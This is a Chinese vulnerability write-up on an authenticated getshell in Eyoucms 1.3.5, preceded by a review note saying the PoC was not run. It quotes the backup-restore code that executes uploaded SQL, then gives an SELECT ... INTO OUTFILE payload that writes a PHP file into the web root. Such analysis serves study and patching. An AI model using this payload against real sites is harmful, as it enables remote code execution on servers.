


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：管理员备份还原权限；绝对路径及DB FILE、secure_file_priv、目录写权限

- **结论使用边界（1）**：标题后台准确，源码直接执行备份SQL，不是.sql/gz后缀验证绕过。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（2）**：最新版本删除功能没有版本/日期/出处；outfile成功前提遗漏。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **结论使用边界（3）**：示例phpinfo只是代码执行探针，表述为webshell不精确。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Eyoucms 1.3.5 后台getshell

一、漏洞简介
------------

### 最新版本删除该功能

二、漏洞影响
------------

Eyoucms 1.3.5

三、复现过程
------------

### 漏洞分析

相关功能代码在`application/admin/controller/Tools.php`

     public function restoreUpload()
     {
         $file = request()->file('sqlfile');
         if(empty($file)){
             $this->error('请上传sql文件');
         }
         // 移动到框架应用根目录/data/sqldata/ 目录下
         $path = tpCache('global.web_sqldatapath');
         $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
         $path = trim($path, '/');
         $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
         $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
         if ($info) {
             //上传成功 获取上传文件信息
             $file_path_full = $info->getPathName();
             if (file_exists($file_path_full)) {
                 $sqls = Backup::parseSql($file_path_full);
                 if(Backup::install($sqls)){
                    //array_map("unlink", glob($path));
                     /*清除缓存*/
                     delFile(RUNTIME_PATH);
                     /*--end*/
                     $this->success("执行sql成功", url('Tools/restore'));
                 }else{
                     $this->error('执行sql失败');
                 }
             } else {
                 $this->error('sql文件上传失败');
             }
         } else {
             //上传错误提示错误信息
             $this->error($file->getError());
         }
     }

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

### 漏洞复现

登陆后台在`高级选项->备份还原->数据还原`可选择上传sql文件并执行

上传sql文件内容为（需要知道网站绝对路径）

     select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php';

上传成功后在网站根目录生成webshell。

